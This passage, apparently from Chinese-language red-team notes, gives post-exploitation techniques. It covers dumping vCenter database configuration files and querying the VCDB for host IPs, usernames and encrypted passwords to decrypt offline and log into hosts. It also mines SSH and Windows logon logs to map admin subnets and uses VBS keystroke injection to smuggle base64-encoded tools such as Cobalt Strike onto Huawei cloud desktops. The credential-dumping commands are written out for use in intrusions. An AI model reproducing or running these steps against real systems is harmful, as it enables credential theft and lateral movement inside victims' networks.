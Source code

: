     
    
    cat /etc/vmware-vpx/vcdb.properties /etc/vmware/service-state/vpxd/vcdb.properties

导出连接数据库  

    
    
    psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc

将password.enc导出到本地，运行脚本解密  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180511.png)

解出来之后直接登录ex

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180512.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180513.png)

### 查看登录地址

在内网信息收集的时候，尽可能的收集内网的网段信息，如果是一台服务器，必有运维人员上来维护，通过分析登录日志，可以发现运维人员的网段

#### linux

查看登录地址

    
    
    grep 'Accepted' /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180514.png)

#### windows

    
    
    SharpEventLog.exe -4624

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180515.png)

### 云桌面

在hw的过程中，发现有些行业喜欢用华为云桌面，由于我们需要在华为云主机上线cs，但是又无法直接复制文件、复制文本等

方法1：

前提条件：云桌面主机和宿主机是互通的

互通情况下可以使用华为云桌面里的主机反向连接宿主机，这样就可以直接通复制文件到华为云桌面上了

方法2：

前提条件：有机会操作目标主机

云桌面主机和宿主机是不互通的，可使用vbs脚本模拟键盘输入，将base64编码后的工具输入到云桌面，在云桌面进行解码

### 域渗透
